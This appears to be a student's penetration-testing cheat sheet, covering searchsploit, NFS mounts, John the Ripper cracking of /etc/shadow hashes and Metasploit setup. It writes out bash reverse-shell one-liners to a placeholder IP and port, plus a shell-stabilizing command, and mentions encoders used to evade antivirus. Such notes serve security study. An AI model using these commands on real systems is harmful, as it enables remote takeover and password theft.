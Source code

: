 searchsploit SEARCH -> to search exploit in exploit DB

#ON APACHE2

configuration on /var/www/htmt/ -> configuration es. 000-default

#REMOTE MOUNT

cat /etc/exports -> see mount permission

mount -t nfs *IP*:/ ./*DIRECTORY*/

#REVERSE SHELL

/bin/bash -i >&/dev/tcp/IP/PORT 0>&1 
/bin/bash -c '/bin/bash -i >&/dev/tcp/IP/PORT 0>&1'

stabilize shell -> python -c 'import pty; pty.spawn("/bin/bash")'

#OTHER 

in linux /etc/shadow contains hashes

user: $id $salt $hash :other-stuff:...

#JOHN
Crack password using dictionary
john -w=*simple_dic* --rules=all

-stdout -> print tries

different modes:
	incremental -> brute force
	single
	.....


#METASPLOIT
*NOT FOR EXAM*
MSF


*first time*
systemctl start postgresql
systemctl enable postgresql
msfdb init

*to start*
msfconsole

exploit location -> /usr/share/metasploit-framework/modules/exploits/

payload -> code that the attacker uses
exploit -> means by wich the attacker takes advantage
module -> the core of MSF. Tools
listener -> module that let you listen for incoming connections

MODULES:
	listener
	encoders: script that can change the payload (ex. shikata_ga_nai -> change bytes everytime so its not detected as easily by antivirus)
	...
